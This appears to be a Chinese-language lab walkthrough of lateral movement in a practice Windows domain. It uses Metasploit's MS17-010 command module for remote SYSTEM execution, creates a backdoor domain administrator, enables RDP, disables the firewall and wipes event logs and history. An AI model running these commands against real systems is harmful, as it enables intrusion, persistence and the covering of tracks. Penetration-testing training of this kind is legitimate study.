   RHOSTS     192.168.52.0/24  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasplo
                                         it
   RPORT      137              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf6 auxiliary(scanner/netbios/nbname) > run

[*] Sending NetBIOS requests to 192.168.52.0->192.168.52.255 (256 hosts)
[+] 192.168.52.138 [OWA] OS:Windows Names:(OWA, GOD) Addresses:(192.168.52.138) Mac:00:0c:29:c1:33:d6 Virtual Machine:VMWare
[+] 192.168.52.141 [ROOT-TVI862UBEH] OS:Windows Names:(ROOT-TVI862UBEH, GOD, SNTL_ROOT-TVI86) Addresses:(192.168.52.141) Mac:00:0c:29:1c:44:8e Virtual Machine:VMWare
[+] 192.168.52.143 [STU1] OS:Windows Names:(STU1, GOD, __MSBROWSE__)  Mac:00:0c:29:bd:35:01 Virtual Machine:VMWare
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```


### 法二：CS

> PS. 下面internal拿到192.254是不正常的



经检查，发现是网卡识别错误，需要将其他无用网卡禁用后才能拿到正确的internal IP



怎么探测都没反应，命令不执行



发现是CS的bug，自己敲一遍就行了




回到列表视图，扫端口




~~又出Bug了，CS识别不到目标机所在的内网ip段~~

点开之后要等一段时间才能扫到






## 横向移动

扫一下跟目前被攻击的机器(Win7)的内网里的另一台机器(Win2k3)开了哪些端口

```bash
msf6 auxiliary(server/socks_proxy) > proxychains4 nmap -p 1-1000 -Pn -sT 192.168.52.141
[*] exec: proxychains4 nmap -p 1-1000 -Pn -sT 192.168.52.141

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 04:18 EDT
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:111 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:143 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:139  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:53 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:256 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:199 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:21  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:995 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:25 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:993 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:22 <--socket error or timeout!
......
```

发现445端口SMB，看下版本

```bash
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > options 

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.52.141
rhosts => 192.168.52.141
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.52.141:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[+] 192.168.52.141:445    -   Host is running Windows 2003 (build:3790) (name:ROOT-TVI862UBEH) (domain:GOD)
[*] 192.168.52.141:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

永恒之蓝打他，跑个ipconfig。

> use auxiliary/admin/smb/ms17_010_command 
>
> set rhosts 192.168.52.141 
>
> set command 命令
>
> run

```bash
msf6 auxiliary(scanner/smb/smb_version) > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 auxiliary(scanner/smb/smb_version) > use 2
msf6 auxiliary(admin/smb/ms17_010_command) > options 

Module options (auxiliary/admin/smb/ms17_010_command):

   Name                  Current Setting                     Required  Description
   ----                  ---------------                     --------  -----------
   COMMAND               net group "Domain Admins" /domain   yes       The command you want to execute on the remote host
   DBGTRACE              false                               yes       Show extra debug trace info
   LEAKATTEMPTS          99                                  yes       How many times to try to leak transaction
   NAMEDPIPE                                                 no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/da  yes       List of named pipes to check
                         ta/wordlists/named_pipes.txt
   RHOSTS                                                    yes       The target host(s), see https://github.com/rapid7/metasploit
                                                                       -framework/wiki/Using-Metasploit
   RPORT                 445                                 yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                       no        Service description to to be used on target for pretty listi
                                                                       ng
   SERVICE_DISPLAY_NAME                                      no        The service display name
   SERVICE_NAME                                              no        The service name
   SMBDomain             .                                   no        The Windows domain to use for authentication
   SMBPass                                                   no        The password for the specified username
   SMBSHARE              C$                                  yes       The name of a writeable share on the server
   SMBUser                                                   no        The username to authenticate as
   THREADS               1                                   yes       The number of concurrent threads (max one per host)
   WINPATH               WINDOWS                             yes       The name of the remote Windows directory

msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.52.141
rhosts => 192.168.52.141
msf6 auxiliary(admin/smb/ms17_010_command) > set command ipconfig
command => ipconfig
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a26cc8
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "ipconfig":


Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IP Address. . . . . . . . . . . . : 192.168.52.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.52.2


[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


照理来说，前面创建后门的时候创建的perry用户是再GOD下的，所以这里应该也可以不建，但保险起见也可以再建一次

> net user /add perry Aa123456 /domain
>
> net localgroup administrators /add god\perry

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command net user /add perry Aa123456 /domain
command => net user /add perry Aa123456 /domain
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a02ae0
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "net user /add perry Aa123456 /domain":

The request will be processed at a domain controller for domain god.org.


[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command net localgroup administrators /add god\\perry
command => net localgroup administrators /add god\perry
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a26cc8
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "net localgroup administrators /add god\perry":

The command completed successfully.


[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


启用远程桌面

> netstat -ano | findstr "3389"						# 查看端口3389是否开启
> REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
> REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
> netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
> netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
> netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本

剩下略，参考"远程登陆-启用远程桌面-MSF部分"


**域控渗透方法域上述基本一致，~~省略~~ **

需要注意的是，域控通过策略组禁用了远程桌面，方法会有点不一样。

当然，不建议进行以下操作，毕竟在实际环境中并碰不到域控。

> 计算机配置 —> 管理模板 —> Windows组件 —> 远程桌面服务 —> 远程桌面会话主机 —> 连接，允许用户通过使用远程桌面服务进行远程连接




## 清除痕迹

**清除日志**

> meterperter自带清除日志功能： clearev     				# 可清除windows中的应用程序日志、系统日志、安全日志

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > sessions 

Active sessions
===============

  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         meterpreter x64/windows  GOD\Administrator @ STU1  192.168.220.137:9999 -> 192.168.220.138:7465  (192.168.220.138)

msf6 auxiliary(admin/smb/ms17_010_command) > sessions 1
[*] Starting interaction with 1...

meterpreter > clearev
[*] Wiping 1756 records from Application...
[*] Wiping 5230 records from System...
[*] Wiping 1842 records from Security...
meterpreter > shell
Process 2000 created.
Channel 11 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

c:\>del /f /s /q “%userprofile%\Recent*.*
del /f /s /q ��?userprofile%\Recent*.*
�ļ�����Ŀ¼���������﷨����ȷ��

```


**清除历史**：`del /f /s /q “%userprofile%\Recent*.*`

*：就是要清除 `C:\Users\[userName]\Recent` 里的所有内容

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command del /f /s /q “%userprofile%\Recent*.*
command => del /f /s /q “%userprofile%Recent*.*
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87d12d60
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Command finished with no output
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "del /f /s /q “%userprofile%Recent*.*":


[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


## 常见问题

**端口占用**

```bash
msf6 exploit(multi/handler) > run

[-] Handler failed to bind to 192.168.220.137:9999:-  -
[-] Handler failed to bind to 0.0.0.0:9999:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:9999).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > sessions i

Active sessions
===============

No active sessions.
```

解决：

> netstat -tulpen
>
> fuser -k 9999/tcp

```bash
msf6 exploit(multi/handler) > netstat -tulpen
[*] exec: netstat -tulpen

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp6       0      0 :::50050                :::*                    LISTEN      0          221354     74832/java          
tcp6       0      0 :::9999                 :::*                    LISTEN      0          221355     74832/java          
tcp6       0      0 :::80                   :::*                    LISTEN      0          221356     74832/java          
msf6 exploit(multi/handler) > fuser -k 9999/tcp
[*] exec: fuser -k 9999/tcp

9999/tcp:            74832
```

